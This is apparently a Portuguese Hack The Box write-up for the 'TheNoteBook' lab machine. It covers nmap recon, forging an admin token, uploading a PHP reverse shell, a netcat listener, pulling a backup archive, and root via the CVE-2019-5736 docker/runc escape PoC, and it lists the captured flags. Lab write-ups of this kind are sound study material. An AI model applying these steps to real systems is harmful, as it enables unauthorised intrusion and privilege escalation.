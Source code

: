 # TheNoteBook

---

## Enum

---

- Descobrimento das portas abertas utilizando nmap:

```python
nmap -A 10.10.10.230
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-20 17:21 -03
Nmap scan report for 10.10.10.230
Host is up (0.14s latency).
Not shown: 896 closed ports, 102 filtered ports
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  tcpwrapped
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

---

## Exploration

---

- Ao ver a resposta do nmap de volta , teve o conhecimento da porta 80 aberta , por default tinha uma aplicação web rodando, então ao registrar a conta, o servidor deu um token junto com a conta criada , então apenas com uma modificação do token, a conta teria um privilégio de administrador.

#![Untitled](https://user-images.githubusercontent.com/69881757/126536909-bfb6c7f7-bcff-4042-89d3-880eaa93aa68.png)


- Então criamos uma chave RSA com openssl para válidar nosso token.

```python
openssl genrsa -out privKey.key 2048
```

- Então com o reconhecimento da página , teve o conhecimento para fazer upload de arquivos,então subimos uma Reverse shell em php e a executamos:

![Untitled 1](https://user-images.githubusercontent.com/69881757/126536934-cace4634-eda4-4bfd-a3a8-24f1030862e8.png)


- Ao pegar shell , percebemos 
- um arquivo de backup chamado "home.tar.gz", então puxamos para nossa maquina:

```python
nc -lvnp PORT
```

```python
python3 -m http.server
```

```python
wget [http://10.10.10.230:8000/home.tar.gz](http://10.10.10.230:8000/home.tar.gz) 
```

```python
tar -xzvf home.tar.gz
```

- Trocando de user e tinha a primeira flag!

User flag: dfed2065e59b2d453d341d27e123c25e

---

## Pós-Exploration

---

```python
sudo -l
User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

- Então ao pesquisar esse privilege escalation no google , teve o reconhecimento da CVE-2019-5736 → [https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)
- Editamos a cve:

    ![bash](https://user-images.githubusercontent.com/69881757/126537014-3e26612d-ff72-4f36-a56c-520603dabd56.png)


- E fizemos a compilação:

  ![compilar](https://user-images.githubusercontent.com/69881757/126537046-dd2d5788-516e-48bb-9e16-d9b79fe0819f.png)


- Entramos na docker :

![docker](https://user-images.githubusercontent.com/69881757/126537073-bbe06e2c-c79e-4f97-a4e3-7105fddd06a2.png)


- Abrimos um servidor e subimos nosso binario "main":

![main](https://user-images.githubusercontent.com/69881757/126537106-d58ca738-bd1b-4674-8471-bec1f2d679d8.png)


- Ao executar o binario na docker, deixaremos uma porta ouvindo com o netcat e com o segundo terminal executamos a docker!

![sh](https://user-images.githubusercontent.com/69881757/126537133-c0144dba-081d-430f-a37f-5205019a1fc4.png)


- Root!

![root](https://user-images.githubusercontent.com/69881757/126537153-4e2349ef-7929-47eb-9aa2-1ca1b797c6b5.png)


Root Flag:584012a257e2e43dbf5d6cf66507af41
